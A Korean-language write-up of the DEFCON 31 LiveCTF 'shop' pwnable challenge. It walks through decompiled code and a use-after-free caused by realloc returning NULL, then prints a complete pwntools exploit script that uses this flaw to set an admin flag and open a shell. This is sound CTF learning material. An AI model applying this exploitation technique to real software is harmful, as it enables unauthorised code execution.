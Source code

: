 ```yaml
---
title: DEFCON 31 LiveCTF - shop
date: 2024-07-16 00:00:00 +0900
categories: [Pwnable, CTF]
tags: [pwnable, ctf, uaf]
render_with_liquid: false
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Structures

``` c
struct credential {
    char is_admin;      // alignment 때문에 어차피 8바이트를 차지
    struct shelf *shelf_ptr;
    char *username;
    char *password;
    struct credential *next_cred;
}

struct shelf {
    long count;
    struct item *item_ptr;
}

struct item {
    long number;
    long price;
    char *name;
    char *description;
}
```

### Goal

``` c
unsigned __int64 hidden_1C83()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  if ( LOBYTE(login_info_4108->is_admin) )
    system("/bin/sh");
  else
    puts("Not an admin");
  return v1 - __readfsqword(0x28u);
}
```

로그인 이후의 메뉴에서 7번을 선택하면 호출되는 숨겨진 `hidden_1C83()`이 존재한다.

여기에서 `login_info`의 첫 바이트, 즉 `is_admin`의 값이 0이 아니면 쉘을 띄워준다.

## 0x01. Vulnerability

``` c
unsigned __int64 add_item_1357()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count + 1));
      if ( tmp )
      {
        ++shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
        memcpy(&shelf_ptr->item_ptr[shelf_ptr->count - 1], &selected, sizeof(shelf_ptr->item_ptr[shelf_ptr->count - 1]));
      }
  ...
}

unsigned __int64 remove_item_14B6()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count - 1));
      if ( tmp )
      {
        --shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
      }
      else
      {
        puts("Error removing item");
      }
  ...
}
```

`add_item_1357()`에서 item을 추가하면 `item_ptr`에 힙 영역이 할당된다.

이것을 `remove_item_14B6()`에서 item을 삭제할 때 청크 사이즈만 줄여서 재할당하는데 사이즈가 0이 됐을 때 `realloc()`에서 `NULL`이 리턴된다.

그런데 `item_ptr`의 값이 초기화되지 않고 그대로 남아있고, 삭제 이후 다시 `add_item_1357()`을 호출할 때 해제된 영역에 접근이 가능하기 때문에 UAF 취약점이 존재한다.

## 0x02. Exploit

``` c
unsigned __int64 open_account_1932()
{
  ...
      tmp = malloc(0x28uLL);
      LOBYTE(tmp->is_admin) = 0;
  ...
}
```

`open_account_1932()`를 보면 계정을 생성하고 바로 `is_admin`을 0으로 만든다.

따라서 A 계정을 만들고 item을 추가 후 삭제하여 해제된 영역을 B 계정의 `credential` 구조체가 가리키도록 exploit을 구성했다.

-   open_account A
-   add_item 1
-   remove_item 0
-   logout
-   open_account B

이러한 순서로 페이로드를 작성해서, A의 `item_ptr`과 B의 `credential`이 같은 영역에 위치하게 만들 수 있고,

-   login as A
-   add_item 2

다시 A로 로그인한 후에 item을 추가해서 `item.number`를 복사하는 과정에서 `is_admin`이 덮이는 시나리오를 생각했으나...

``` bash
# Credential of B - BEFORE
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555500      0x00005555555593a0
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000

# Credential of B - AFTER
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555559      0x4ec540a62b019163
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000
```

쉘이 떨어져서 실제 값이 잘 덮였는지 확인해보니 `item.number`가 아닌 엉뚱한 값으로 덮여있었다.

그래서 다시 면밀하게 디버깅을 해본 결과 `memcpy` 부분이 아니라 `realloc` 부분에서 값이 변경되는 것을 확인했다.

곰곰이 생각해보니 다음과 같은 문제가 있었다.

1.  `remove_item_14B6()`에서 `realloc()`이 `NULL`을 리턴해서 `item_ptr` 초기화는 물론 `count` 값도 작아지지 않음
2.  다시 `add_item_1357()`를 하는 과정에서 `count` 값이 아직 1이므로 0x40만큼 `realloc()`을 요청함
3.  사이즈도 맞지 않거니와 B의 `credential`이 있는 영역은 다시 `free`된 적도 없기 때문에 아예 다른 영역이 할당됨

결과적으로는 `realloc` 과정에서 뭔가 dummy 데이터가 쓰여지면서 `is_admin`이 덮이게 되어 다행히 exploit이 성공한다.

솔직히 이게 intended solution인지 잘 모르겠다... ㅋㅋㅋㅋ

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

BINARY = "uaf"
LIBRARY = "libc.so.6"

code_base = 0x0000555555554000
bp = {
    'main' : code_base + 0x1DC7,
    'open_account' : code_base + 0x1932,
    'hidden' : code_base + 0x1C83,
}

gs = f'''
b *{bp['open_account']}
b *{bp['hidden']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def menu(s, inputs: list) :
    for i in range(len(inputs)):
        r = s.recvuntil(b': ').decode()
        if i == 0:
            print(r.split('\n')[int(inputs[i]) - 1])
        s.sendline(inputs[i].encode())
    return

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    menu(s, ['2', 'aaaa', '1111'])  # open_account of A
    menu(s, ['2', '1'])             # add_item 1
    menu(s, ['3', '0'])             # remove_item 0
    menu(s, ['5'])                  # logout
    menu(s, ['2', 'bbbb', '2222'])  # open_account of B
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'aaaa', '1111'])  # login as A
    menu(s, ['2', '2'])             # add_item 2
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'bbbb', '2222'])  # login as B
    menu(s, ['7'])                  # hidden
    s.interactive()

if __name__=='__main__':
    main()
```
